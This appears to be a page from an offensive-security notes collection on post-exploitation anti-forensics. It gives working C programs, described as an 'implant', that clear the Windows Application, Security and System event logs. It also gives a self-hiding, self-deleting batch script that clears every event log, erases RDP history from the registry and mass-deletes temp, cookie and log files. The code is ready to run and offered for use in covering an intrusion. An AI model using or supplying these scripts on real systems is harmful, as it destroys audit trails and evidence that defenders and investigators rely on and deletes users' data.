 # Clear Event Logs

## ClearEventLog

### C

Clear a single event log.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_name = "Application";

    // Open the event log
    handle_event_log = OpenEventLog(NULL, event_log_name);
    if (handle_event_log == NULL) {
        printf("Failed to open event log. Error: %lu\n", GetLastError());
        return 1;
    }

    // Clear the event log without saving a backup
    if (ClearEventLog(handle_event_log, NULL) == 0) {
        printf("Failed to clear event log. Error: %lu\n", GetLastError());
        CloseEventLog(handle_event_log);
        return 1;
    }

    printf("Successfully cleared the event log: %s\n", event_log_name);

    CloseEventLog(handle_event_log);

    return 0;
}
```

Clear multiple event logs.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_names[] = {"Application", "Security", "System"};

    // Loop through each log and attempt to clear it
    for (int i = 0; i < sizeof(event_log_names) / sizeof(event_log_names[0]); i++) {
        // Open the event log
        handle_event_log = OpenEventLog(NULL, event_log_names[i]);
        if (handle_event_log == NULL) {
            printf("Failed to open event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
            continue;  // Move to the next log if opening fails
        }

        // Clear the event log without saving a backup
        if (ClearEventLog(handle_event_log, NULL) == 0) {
            printf("Failed to clear event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
        } else {
            printf("Successfully cleared the event log: %s\n", event_log_names[i]);
        }

        CloseEventLog(handle_event_log);
    }

    return 0;
}
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## ClearEventLogA

### C

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## Batch

A batch script to wipe the files.

```batch
:: To clean all logs in vindex I recommend to use this bootnik.
:: And even this botnick does not clean all logs, for example in the registry.
:start
cmdow @ /HID

timeout.exe /t 5

for /f "tokens=1,2*" %%V in ('bcdedit.exe') do set adminTest=%%V
if (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe enum-logs') do (call :clear_log "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd

:clear_log
echo clearing %1
wevtutil.exe clear-log %1
goto :eof

:noAdmin
echo Administrative privileges is required!
echo.

:theEnd
rd /s /q %SYSTEMDRIVE%\$RECYCLE.BIN
rd /s /q  %SYSTEMDRIVE%\recycler
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %USERPROFILE%\Documents\
attrib.exe Default.rdp -s -h

del /s /q /a c:\*.log
del /s /q /a c:\*.tmp
del /f /s /q /a "%USERPROFILE%\Roaming\Macromedia\*"
del /f /s /q /a "%USERPROFILE%\Roaming\Adobe\*"
del /f /s /q /a "C:\Windows\Temp\*"
del /f /s /q /a "C:\Temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Local\Temp\*"
del /f /s /q %TEMP%\*
cd %USERPROFILE%\AppData\Local\Temp
rmdir /s /q %USERPROFILE%\AppData\Local\Temp
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TEMP && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TMP && rd /s /q . > nul 2>&1
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\Temp && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\tmp && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\Temp" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Adobe\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\History" && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Cookies && rd /s /q . > nul 2>&1

pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\Content\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\MetaData\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\IconCache.db" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\All Users\Application Data\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1

del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\logs\*"

del %0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/13 - Anti-Forensics/Windows/Clear Traces/04 - Clear Logs/Delete Logs/Event Logs/Manual/Living off the Land]]

### Microsoft

- [Win32 API Documentation: OpenEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventloga)

- [Win32 API Documentation: OpenEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)

- [Win32 API Documentation: ClearEventLog](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/eventlogprov/cleareventlog-method-in-class-win32-nteventlogfile)

- [Win32 API Documentation: ClearEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventloga)

- [Win32 API Documentation: ClearEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)

- [Win32 API Documentation: CloseEventLog](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)